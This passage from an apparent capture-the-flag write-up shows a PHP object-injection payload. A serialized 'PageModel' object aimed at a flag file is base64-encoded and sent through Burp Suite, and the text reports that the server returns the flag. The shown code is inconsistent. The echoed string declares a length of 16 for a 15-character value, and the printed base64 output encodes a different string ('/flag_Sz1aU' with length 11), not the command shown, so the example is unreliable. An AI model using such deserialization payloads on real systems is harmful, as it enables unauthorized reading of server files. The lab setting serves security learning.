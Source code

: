 Let's modify our payload again to get the content of that dir:  
```console
echo 'O:9:"PageModel":1:{s:4:"file";s:16:"cat /flag_Sz1aU";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfU3oxYVUiO30K
```  
Let's submit this via burp and here it is, we can see our flag is returned by the server!  
<div style="width: 65%; height: 65%">

  ![](images/burpsuite_flag.png)

</div> 


